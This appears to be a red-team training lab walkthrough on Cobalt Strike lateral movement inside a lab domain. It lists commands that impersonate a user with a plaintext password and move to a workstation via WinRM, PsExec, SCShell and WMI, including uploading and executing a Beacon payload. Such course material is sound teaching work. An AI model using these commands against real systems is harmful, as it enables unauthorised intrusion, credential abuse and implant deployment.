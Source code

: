 # Kill Chains

We know from the Discovery lab that rsteel is a local admin on _lon-ws-1_. For the sake of this lab, impersonate them using plaintext credentials:

1. `make_token CONTOSO\rsteel Passw0rd!`
2. Test access to the target by listing its C$ share.
   1. `ls \\lon-ws-1\c$`

### Windows Remote Management <a href="#windows-remote-management" id="windows-remote-management"></a>

1. Using WinRM, move laterally to _lon-ws-1_.
   1. `jump winrm64 lon-ws-1 smb`

### PsExec <a href="#psexec" id="psexec"></a>

1. Using PsExec, move laterally to _lon-ws-1_.
   1. `jump psexec64 lon-ws-1 smb`

### SCShell <a href="#scshell" id="scshell"></a>

1.  Load the SCShell aggressor script.

    1. `C:\Tools\SCShell\CS-BOF\scshell.cna`

    > Cobalt Strike > Script Manager
2. Using SCShell, move laterally to _lon-ws-1_.
   1. `jump scshell64 lon-ws-1 smb`

### WMI <a href="#wmi" id="wmi"></a>

1. Change Beacon's working directory.
   1. `cd \\lon-ws-1\ADMIN$`
2. Upload a Beacon payload to the target.
   1. `upload C:\Payloads\smb_x64.exe`
3. Execute the payload using remote-exec.
   1. `remote-exec wmi lon-ws-1 C:\Windows\smb_x64.exe`
4. Link to the new Beacon.
   1. `link lon-ws-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337`
